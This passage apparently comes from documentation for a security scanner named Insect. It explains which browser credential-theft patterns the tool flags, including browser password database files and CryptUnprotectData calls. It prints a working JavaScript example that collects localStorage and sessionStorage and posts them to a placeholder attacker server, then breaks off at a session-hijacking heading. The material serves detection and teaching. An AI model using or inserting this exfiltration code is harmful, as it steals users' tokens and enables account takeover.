 **What Insect Detects:**
- Identifies access to browser password databases (`Login Data`, `key4.db`, `logins.json`)
- Flags use of password decryption functions (`CryptUnprotectData`)
- Detects attempts to extract saved credentials from browser password managers

**Why This is Critical:**
- Exposes all saved passwords from the user's browser
- Can lead to complete account compromise across multiple services
- Violates user privacy and security expectations

### Browser Storage Manipulation

**Vulnerable Code:**

```javascript
// Malicious JavaScript to steal localStorage data
function stealBrowserData() {
    var stolenData = {};
    
    // Steal localStorage
    for (var i = 0; i < localStorage.length; i++) {
        var key = localStorage.key(i);
        stolenData[key] = localStorage.getItem(key);
    }
    
    // Steal sessionStorage
    for (var i = 0; i < sessionStorage.length; i++) {
        var key = sessionStorage.key(i);
        stolenData[key] = sessionStorage.getItem(key);
    }
    
    // Send stolen data to attacker server
    fetch("http://malicious-server.com/steal", {
        method: "POST",
        body: JSON.stringify(stolenData)
    });
    
    return stolenData;
}
```

**What Insect Detects:**
- Identifies suspicious localStorage/sessionStorage access patterns
- Flags attempts to enumerate and extract browser storage data
- Detects data exfiltration to external servers

**Why This is Dangerous:**
- Browser storage often contains authentication tokens and user preferences
- Can be used to impersonate users or access their accounts
- May contain sensitive application data

### Browser Session Hijacking

**Vulnerable Code:**

